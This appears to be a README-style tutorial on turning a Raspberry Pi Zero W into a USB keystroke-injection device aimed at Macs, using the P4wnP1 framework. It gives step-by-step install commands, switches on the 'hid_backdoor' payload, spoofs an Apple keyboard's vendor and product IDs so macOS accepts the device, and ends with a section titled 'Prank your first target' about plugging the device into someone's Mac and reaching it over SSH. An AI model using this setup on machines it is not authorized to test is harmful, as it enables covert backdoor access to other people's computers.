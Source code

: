 # Pi zero rubber ducky OSX

## What you will need: 
* Raspberry-pi-zero-w
* USB to ethernet adapter
* SSD card 
* Montor with HDMI 
* Pi-HDMI-Mini HDMI Adapter-Micro



## How to install

### Downlaod and Install Raspbian Lite
First download the [Stretch Lite image](https://www.raspberrypi.org/downloads/raspbian/) to your computer. 
Write the image to the your SD card. I recommend using [etcher](https://www.balena.io/etcher/)


### Setting up P4wnP1
Connect your PI to a monitor, and use the USB to ethernet adapter to get internet connection. This can be done with wifi sharing, from your computer, but I found it easier to just connect it directly to your router. (Note that the Raspberry Pi zero w comes with two micro usb ports, where only the left can read data.) So make sure that the power comes from the right usb port and the USB to ethernet adapter is connected to the left usb port. 

Once connected you need to install P4wnP1 (This takes a good amount of time) 

```
sudo apt-get -y install git
cd /home/pi
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1
./install.sh
```

### Change payload: 
Now we need to change the payload to open a backdoor for us.
```
nano P4wnP1/setup.cfg
```

Change line 134 
from: 
```
PAYLOAD=network_only.txt
```

to:
```
#PAYLOAD=network_only.txt
```
Change line 146
from:
```
#PAYLOAD=hid_backdoor.txt # under (heavy) development
```

to:
```
PAYLOAD=hid_backdoor.txt # under (heavy) development
```

### Making it work for OSX
There are a few issues that needs to be resolved before we can make run our USB rubber ducky on OSX, if you are intrested in reading more about them you can do so [her](https://github.com/mame82/P4wnP1/issues/168).

First we have to change vendor and product id to Apple keyboard id in setup.cfg and in hid_keyboard.txt. This is important because otherwise the OSX will ask us to set up a keyboard everytime we plug in our rubber ducky. 

```
nano P4wnP1/setup.cfg
```
Change line 13 and 14 to: 
from:
```
USB_VID="0x1d6b"        # Vendor ID
USB_PID="0x0137"        # Product ID
```

to:
```
USB_VID="0x05ac"        # Vendor ID
USB_PID="0x024f"        # Product ID
```

There is also a second issue that is addressed in the issue post liked above, and that is that there is a command in boot_P4wnP1 that just hangs forever. A solution by the user @izeau that worked is to simply add a timeout to the line of code that causes this problem. 

```
nano  P4wnP1/boot/boot_P4wnP1
```
Change line 200

from: 
```
python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```

to:
```
timeout 5 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```

## Add your ducky scripts:
The ducky scripts that comes with P4wnP1 are not for OSX, and you will therefor have to write these yourself. There are some ducky script available online that you can check out [her](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads), however I would recommend to just add my simple ducky script first to make sure everything works. 

To add a ducky script simply do the following: 

```
cd P4wnP1/DuckyScripts
touch testDucky.duck
nano testDucky.duck
```
Add the following script: 
```
My test script.....
```

## Prank your first target
Select your target mac and connect the Pi to it.(You only need to use the usb data port now, since the pi will get power from the target machine.). Once connected the PI will create a WIFI network named P4wnP1. Connect to the network with the password: "MaMe82-P4wnP1". Once connected to the network you can SSH into your pi: 

```
ssh pi@172.24.0.1 
```
Password for SSH is: raspberry 

You can now type help to navigate or simply just run your ducky scripts. 

## Credit
**mame82** https://github.com/mame82/P4wnP1/blob/master/INSTALL.md

**Seytonic** https://www.youtube.com/watch?v=Pft7voW5ui8&t=413s
